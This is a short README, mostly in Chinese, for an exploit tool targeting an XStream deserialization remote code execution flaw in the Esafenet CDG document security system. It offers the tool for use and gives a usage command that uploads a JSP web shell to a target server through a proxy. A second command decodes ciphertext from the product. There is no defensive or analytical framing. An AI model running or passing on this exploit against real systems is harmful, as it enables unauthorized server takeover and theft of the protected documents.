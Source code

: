 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

本地文件上传利用

```bash
java -jar CDGXStreamDeserRCE.jar -t http://192.168.1.1:8443 -uf shell.jsp -p http://127.0.0.1:8080
```

密文解码

```bash
java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```

## References

- https://github.com/woodpecker-framework/ysoserial-for-woodpecker